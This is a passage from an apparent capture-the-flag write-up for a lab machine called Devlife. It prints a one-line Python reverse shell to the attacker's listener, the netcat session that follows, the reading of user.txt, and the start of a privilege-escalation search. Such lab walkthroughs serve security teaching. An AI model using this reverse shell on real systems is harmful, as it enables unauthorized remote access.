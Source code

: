     
    
    import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.254.1.47\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);
    

And get a shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.1.1.20.
    Ncat: Connection from 10.1.1.20:56874.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

From there, I can grab `user.txt`:

    
    
    www-data@Devlife:/home/tedd$ cat user.txt 
    529c7a0e...
    

## Privesc: www-data –> root

In `/home/tedd` there’s not only `user.txt`, but an atypical hidden directory,
`.env`:

    
    
    www-data@Devlife:/home/tedd$ ls -la
    total 32
    dr-xr-xr-x 4 tedd tedd 4096 Dec 23 11:36 .
    drwxr-xr-x 3 root root 4096 Aug  6 06:40 ..
    -r-xr-xr-x 1 tedd tedd    0 Sep 17 16:49 .bash_history
    -r-xr-xr-x 1 tedd tedd  220 Aug  6 06:40 .bash_logout
    -r-xr-xr-x 1 tedd tedd 3526 Aug  6 06:40 .bashrc
    dr-xr-xr-x 2 root root 4096 Dec 23 11:42 .env
    dr-xr-xr-x 2 tedd tedd 4096 Aug 17 15:14 .nano
    -r-xr-xr-x 1 tedd tedd  675 Aug  6 06:40 .profile
    -r-xr-xr-x 1 root root   41 Sep 17 16:48 user.txt
    

Inside the dir, there’s a python script (and a swap file, that I’ll try to
recover in Beyond Root):

    
    
    www-data@Devlife:/home/tedd/.env$ ls -la
    total 16
    dr-xr-xr-x 2 root root 4096 Dec 23 16:11 .
    dr-xr-xr-x 4 tedd tedd 4096 Dec 23 11:36 ..
    -r-xr-xr-x 1 root root 1024 Dec 23 11:27 .sudo.py.swp
    -r-xr-xr-x 1 root root  150 Dec 23 11:43 su.py
    